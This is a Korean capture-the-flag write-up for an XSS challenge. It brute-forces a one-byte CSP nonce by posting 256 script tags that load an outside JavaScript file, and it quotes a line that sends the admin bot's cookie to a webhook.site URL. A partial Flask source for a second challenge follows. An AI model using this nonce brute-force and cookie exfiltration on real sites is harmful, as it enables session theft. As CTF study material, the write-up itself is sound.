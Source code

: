 
### 접근방식
현재 이 문제코드에서 제공하는 기능은 다음과 같다. `/memo`에 접근해 파라미터로 문자열을 입력해주면 해당 문자열이 별도의 필터링이없이 출력되고, `/call-admin`에 접속해 flag값을 쿠키로 가지고 있는 서버가 `/memo`에 접속하고 `/claer-memo`에 접속하면 memo의 출력되는 모든 문자열을 지워준다.

따라서 flag를 획득하려면 서버가 `/memo` url에 접속하면 쿠키값이 출력되게 하거나, 나의 서버로 접속해 쿠키값을 보내게 하는 방법이 있을 것이다. 우선 해당 공격을 수행하려면 script나, ifram과 같은 명령어가 실행이 되어야하는데 csp정책으로인해 막혀있는 상황이다. 하지만 nonce값을 1바이트의 hex값으로 설정하므로써 256개의 nonce값으로 적은 경우의 수의 nonce값을 예측할 수 있다. 즉 나올 수 있는 모든 nonce의 값들과 함께 script문을 256개 작성해주면 1개의 script문은 작동을 하게될 것이다.

이후 나는 쿠키값을 webhook사이트를 통해 요청을 받도록했다.



### 코드작성
```python
import requests

URL = "http://srv1.kitriwhs.kr:9232"

def memo_nonce(URL):
    for nonce in range(256):
        payload = f"""/memo?memo=<script nonce="{str(hex(nonce))[2:]}" src="https://luisceballos.dev/xss_js/whs.js"></script>"""
        res = requests.get(URL + payload)
        print(res.status_code)
        print(hex(nonce)[2:])

memo_nonce(URL)
```
위와 같은 코드를 사용해 `/memo`url에 모든 nocne경우의수만큼 script를 작성해 js가 실행되는 나의 서버로 접속하게 했다.

해당 서버 js에는 `location.href="	https://webhook.site/c6242c6c-251c-493b-819a-3c4924f315ea?cookie="+document.cookie`의 코드가 적혀있어 webhook사이트로 쿠키값과 함께 요청이 보내진다.



### 문제해결
해당 문제를 해결하기위해서 다음과 같은 순서로 공격을 했다.
1. 위 코드를 사용해 `/memo`url에 모든 nonce값의 경우의수 만큼 나의 서버로 접속하는 script를 작성
2. `/call-admin`에 접속해 `/memo`서버가 memo를 접근하게 함
3. `/memo`에 접근한 서버는 자신의 flag쿠키값과 함께 webhook사이트로 요청이 보내게됨
4. webhook사이트에서 해당 요청을 확인해 flag를 획득


## G.how-to-api

### 분석한 내용
해당 문제의 전체코드는 다음과같다.

```python
#!/usr/bin/python3
import os
from flask import Flask, session, request, g, jsonify
import random
import time

app = Flask(__name__)
app.secret_key = os.urandom(32)

number_storage = []

try:
    FLAG = open('./flag.txt', 'r').read()
except:
    FLAG = '[**FLAG**]'

```